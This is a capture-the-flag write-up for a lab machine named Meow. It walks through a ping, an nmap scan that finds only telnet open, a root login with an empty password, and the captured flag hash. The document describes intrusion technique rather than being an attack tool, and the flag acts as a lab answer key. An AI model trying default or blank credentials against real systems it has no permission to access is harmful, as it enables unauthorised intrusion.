



# Meow - Machine Writeup

## Machine Info
- Machine: Meow
- OS: Linux

---

## 1. Reconnaissance

Started by testing connection to the target with ping over the openvpn tunnel:

```bash
sdheeraj@fedora:~/Downloads$ ping 10.129.212.224
PING 10.129.212.224 (10.129.212.224) 56(84) bytes of data.
64 bytes from 10.129.212.224: icmp_seq=1 ttl=63 time=437 ms
64 bytes from 10.129.212.224: icmp_seq=2 ttl=63 time=1480 ms
64 bytes from 10.129.212.224: icmp_seq=3 ttl=63 time=479 ms
64 bytes from 10.129.212.224: icmp_seq=4 ttl=63 time=294 ms
^C
--- 10.129.212.224 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4006ms
rtt min/avg/max/mdev = 293.640/672.292/1479.651/471.172 ms, pipe 2
```

Then ran a basic service version scan using nmap:

```bash
sdheeraj@fedora:~/Downloads$ nmap -sV -sC 10.129.212.224
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-08 04:24 IST
Nmap scan report for 10.129.212.224
Host is up (0.33s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.88 seconds
```

Observation: Only port 23/tcp is open, which is running Linux telnetd. Telnet is an old unencrypted protocol that sends everything in plaintext.

---

## 2. Enumeration

Connected to the service directly using the telnet client:

```bash
sdheeraj@fedora:~/Downloads$ telnet 10.129.212.224
Trying 10.129.212.224...
Connected to 10.129.212.224.
Escape character is '^]'.

Meow login:
```

The system asks for a login username. Since many default embedded or misconfigured Linux systems leave default accounts without passwords, tried standard administrative usernames like root.

---

## 3. Exploitation

Logged in as root and pressed enter with an empty password:

```text
  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 07 Oct 2026 10:56:15 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.212.224
  IPv6 address for eth0: dead:beef::a0de:adff:fe64:fb46

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# whoami
root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 

```

No password was required for the root user. Got an immediate root shell and the flag was right in `/root/flag.txt`.

---

## 4. Flag

```text
b40abdfe23665f766f9c61ecba8a4c19
```

Proof of completed machine:


Solving:


